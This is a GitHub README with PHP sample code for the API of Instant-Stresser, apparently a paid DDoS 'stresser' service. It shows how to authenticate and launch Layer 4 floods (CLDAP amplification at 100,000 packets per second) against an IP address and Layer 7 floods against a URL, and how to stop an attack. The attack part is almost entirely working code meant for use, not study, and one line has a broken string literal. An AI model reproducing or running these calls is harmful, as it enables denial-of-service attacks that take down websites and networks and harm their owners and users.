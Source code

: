 # Instant-Stresser-API
Sample API usage of Instant-Stresser.com

## Requirements
PHP version 5.x (+).<br/>
Libcurl package.

## L4/L7 Methods Syntaxe
Available here : https://instant-stresser.com/help/methodsdoc

## Authentication
```php
require 'API.php';
// UserID and API Key generated from API Manager website.
$userID = 123456789;
$apiKey = "ABCD-123";
$api = new API($userID, $apiKey);
```

## Layer 4 Attack
```php

$host = "1.1.1.1";
$port = "80;
$time = "15";
$method = "CLDAP";
$slots = 1;
$pps = 100000;

/* Parameters : IPv4 , Port , Time , Method , Slots, PPS */
$response = $api->startL4($host, $port, $time, $method, $slots, $pps);
```
## Layer 7 Attack
```php

$host = "https://example.com/";
$time = "15";
$method = "JSDOM";
$slots = 1;
$requesttype = "GET";
$ratelimit = "false";

/* Parameters : URL , Time , Method , Slots , Type, Ratelimit (true = enable, false = disabled) */
$response = $api->startL7($host, $time, $method, $slots, $requesttype, $ratelimit);
```
## Stop Attack
```php
/* Parameters : Host. */
$response = $api->stopAttack("1.1.1.1");
```

## API Response
```php
echo $response; // Get API response.
```

